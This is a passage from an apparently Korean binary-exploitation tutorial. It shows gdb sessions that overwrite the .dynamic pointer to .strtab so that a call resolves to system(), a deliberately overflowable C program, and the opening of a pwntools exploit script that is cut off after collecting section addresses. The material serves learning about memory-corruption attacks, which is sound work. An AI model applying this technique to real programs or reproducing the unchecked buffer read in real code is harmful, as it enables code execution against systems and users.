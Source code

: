 ```
0x804a07c:	0x00000000	0x00000000	0x79730000	0x6d657473
```

* .dynamic 영역에 .strtab을 가리키는 포인터가 존재하는데 이 부분을 .bss 영역으로 덮어쓴다.

```
gdb-peda$ x/24wx 0x8049f14 + 0x44
0x8049f58:	0x0804821c
gdb-peda$ set *(0x8049f14 + 0x44) = 0x804a01c + 0x50
```

* system에 breakpoint를 걸고 continue를 하면 system 함수가 호출되는 것을 확인할 수 있다.

```
gdb-peda$ b system
Breakpoint 2 at 0xf7e41940
gdb-peda$ c
Continuing.
...
[-------------------------------------code-------------------------------------]
   0xf7e41936:	ret    
   0xf7e41937:	mov    esi,esi
   0xf7e41939:	lea    edi,[edi+eiz*1+0x0]
=> 0xf7e41940 <system>:	sub    esp,0xc
   0xf7e41943 <system+3>:	mov    eax,DWORD PTR [esp+0x10]
   0xf7e41947 <system+7>:	call   0xf7f2428d
   0xf7e4194c <system+12>:	add    edx,0x1756b4
   0xf7e41952 <system+18>:	test   eax,eax
```

## **Proof of Concept**
```c
// Vuln Code
// gcc -fno-stack-protector -o rop rop.c -m32
#define _GNU_SOURCE
#include <stdio.h>
#include <unistd.h>
#include <dlfcn.h>
  
void vuln(){
    char buf[50];
    read(0, buf, 512);
}
  
void main(){
    write(1,"Hello ROP\n",10);
    vuln();
}
```

## **Exploit Code**
```python
// Exploit Code
from pwn import *

elf = ELF('./rop')
context.log_level='info'

# get section address
addr_dynsym     = elf.get_section_by_name('.dynsym').header['sh_addr']
addr_dynstr     = elf.get_section_by_name('.dynstr').header['sh_addr']
addr_relplt     = elf.get_section_by_name('.rel.plt').header['sh_addr']
addr_plt        = elf.get_section_by_name('.plt').header['sh_addr']
addr_bss        = elf.get_section_by_name('.bss').header['sh_addr']
addr_plt_read   = elf.plt['read']
```